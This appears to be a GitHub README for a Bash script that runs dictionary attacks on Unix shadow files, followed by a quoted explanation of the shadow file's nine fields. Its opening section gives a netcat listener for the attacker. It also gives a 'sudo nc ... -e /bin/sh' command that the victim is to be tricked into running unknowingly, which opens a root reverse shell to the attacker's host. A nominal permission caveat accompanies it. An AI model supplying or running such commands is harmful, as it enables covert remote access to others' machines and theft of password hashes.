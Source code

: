 # Shadow_Dictionary
A quick Bash script that can perform a dictionary attack against a shadow file to find passwords

# How do we get a shadow file?
A simple way could be a basic netcat attack. Though this approach is not likely to work in the real world, and you should only play around with this idea in a network you own or have permission to.
## Attacker
Setting up the attack is as simple as running this command on your machine:
```
while true; do nc -l -p 5000 < netcat_attack.sh >> victims.txt; done
```
## Victim
Here is where this sort of attack becomes impractical in the real world. We need to get your victim to run this command on their machine somehow without them knowing what it does.
```
sudo nc 192.168.2.250 5000 -e /bin/sh
```
Of cource, the above IP address should be the IP address for your attacker machine

# What is a shadow file?
## From the man page for shadow
shadow is a file which contains the password information for the system's accounts and optional aging information.
This file must not be readable by regular users if password security is to be maintained.
Each line of this file contains 9 fields, separated by colons (“:”), in the following order:

1. login name
    * It must be a valid account name, which exist on the system.
  
2. encrypted password
    * Refer to crypt(3) for details on how this string is interpreted.
    * If the password field contains some string that is not a valid result of crypt(3), for instance ! or *, the user will not be         able to use a unix password to log in (but the user may log in the system by other means).
    * This field may be empty, in which case no passwords are required to authenticate as the specified login name. However, some applications which read the /etc/shadow file may decide not to permit any access at all if the password field is empty.
    * A password field which starts with an exclamation mark means that the password is locked. The remaining characters on the line represent the password field before the password was locked.

3. date of last password change
    * The date of the last password change, expressed as the number of days since Jan 1, 1970.
    * The value 0 has a special meaning, which is that the user should change her password the next time she will log in the system.
    * An empty field means that password aging features are disabled.

4. minimum password age
    * The minimum password age is the number of days the user will have to wait before she will be allowed to change her password again.
    * An empty field and value 0 mean that there are no minimum password age.

5. maximum password age
    * The maximum password age is the number of days after which the user will have to change her password.
    * After this number of days is elapsed, the password may still be valid. The user should be asked to change her password the next time she will log in.
    * An empty field means that there are no maximum password age, no password warning period, and no password inactivity period (see below).
    * If the maximum password age is lower than the minimum password age, the user cannot change her password.

6. password warning period
    * The number of days before a password is going to expire (see the maximum password age above) during which the user should be warned.
    * An empty field and value 0 mean that there are no password warning period.

7. password inactivity period
    * The number of days after a password has expired (see the maximum password age above) during which the password should still be accepted (and the user should update her password during the next login).
    * After expiration of the password and this expiration period is elapsed, no login is possible using the current user's password. The user should contact her administrator.
    * An empty field means that there are no enforcement of an inactivity period.

8. account expiration date
    * The date of expiration of the account, expressed as the number of days since Jan 1, 1970.
    * Note that an account expiration differs from a password expiration. In case of an account expiration, the user shall not be allowed to login. In case of a password expiration, the user is not allowed to login using her password.
    * An empty field means that the account will never expire.
    * The value 0 should not be used as it is interpreted as either an account with no expiration, or as an expiration on Jan 1, 1970.

9. reserved field
    * This field is reserved for future use.
